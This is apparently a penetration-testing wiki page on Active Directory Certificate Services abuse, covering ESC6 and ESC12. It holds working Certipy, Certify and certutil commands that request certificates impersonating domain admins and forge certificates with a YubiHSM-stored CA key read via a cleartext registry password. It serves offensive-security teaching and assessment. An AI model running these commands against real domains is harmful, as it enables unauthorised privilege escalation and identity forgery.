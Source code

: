 # Certificate authority

## Theory

### Certificate Authority misconfiguration

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) found a domain escalation vector based on a dangerous CA setting (i.e. the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag). The escalation vector was dubbed [ESC6](https://posts.specterops.io/certified-pre-owned-d95910965cd2#2a56).

When the flag is set on the CA, templates configured for authentication (i.e. EKUs like Client Authentication, PKINIT Client Authentication, Smart Card Logon, Any Purpose (`OID 2.5.29.37.0`), or no EKU (`SubCA`)) and allowing low-priv users to enroll can be abused to authenticate as any other user/machine/admin.

{% hint style="success" %}
The default **User** template checks all the template requirements stated above.

If the CA is configured with the  `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (admins tend to enable that flag without knowing the security implications), and the **User** template is enabled (which is very often), any user can escalate to domain admin.
{% endhint %}

{% hint style="danger" %}
[May 2022 security updates](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923) broke the ESC6 attack.
{% endhint %}

### YubiHSM Key Storage Provider

As described by [Hans-Joachim Knobloch](https://twitter.com/hajoknobloch) in his article [ESC12 – Shell access to ADCS CA with YubiHSM](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm), administrators may configure the Certificate Authority to store its private key on an external device like "Yubico YubiHSM2", over storing it in the software storage.

This is a USB device connected to the CA server via a USB port, or a USB device server in case of the CA server is a virtual machine. "*In order to generate and use keys in the YubiHSM, the Key Storage Provider must use an authentication key (sometimes dubbed "password"). This key/password is stored in the registry under `HKEY_LOCAL_MACHINE\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword` in cleartext.*"

## Practice

### EDITF_ATTRIBUTESUBJECTALTNAME2 (ESC6)

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate info about the CAs, including the "**User Specified SAN**" flag state which is an alias to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -stdout | grep "User Specified SAN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}

Once the right template is found (i.e. the default User template) ([how to enumerate](./#attack-paths)), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```bash
#To specify a user account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including the "**UserSpecifiedSAN**" flag state which refers to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```batch
Certify.exe cas
```

If the flag is enabled on a CA, certify can then be used to find all enabled templates configured with EKUs allowing for authentication, and allowing low-priv users to enroll.

```batch
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth
```

Once the right template is found (i.e. the default **User** template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```batch
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

### Shell access to ADCS CA with YubiHSM (ESC12)

#### Redirect the USB device server

{% tabs %}
{% tab title="UNIX-like" %}
At the time of writing, no solution exists to perform this attack from a UNIX-like machine.
{% endtab %}

{% tab title="Windows" %}
From a Windows machine, if the YubiHSM device is connected through a USB device server, with sufficient administrative access to this server it could be possible to redirect the YubiHSM connection to a controlled machine.

Read the password value in the `HKEY_LOCAL_MACHINE\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword` registry key, and configure it in the controlled server registry.

Then, find a way to configure the USB device server to connect to the attacker controlled server. For this step, the different tasks to perform may vary between the USB device server solutions in use.

{% hint style="danger" %}
Generally USB device server solutions can't connect the device to multiple systems at once. If the device is disconnected from the CA server, the CA will stop working.
{% endhint %}
{% endtab %}
{% endtabs %}

#### Forge a certificate

If the CA's private key is stored on a physical USB device such as "YubiHSM2", and a shell access is obtained on the PKI server (even with low privileges), it is possible to recover the key.

{% tabs %}
{% tab title="UNIX-like" %}
At the time of writing, no solution exists to perform this attack from a UNIX-like machine.
{% endtab %}

{% tab title="Windows" %}
From a Windows machine, as a low privileged user connected into the CA server, obtain the CA certificate (it is public) and import it to the user store:

```powershell
certutil -addstore -user my <CA certificate file>
```

Next, the certificate must be associated to the private key in the YubiHSM2 device:

```powershell
certutil -csp "YubiHSM Key Storage Provider" -repairstore -user my <CA Common Name>
```

Finally, use the CA certificate and its private key with the `certutil -sign` [command](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/certutil#-sign) to forge new arbitrary certificates.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://www.keyfactor.com/blog/hidden-dangers-certificate-subject-alternative-names-sans" %}

{% embed url="https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6" %}

{% embed url="https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm" %}
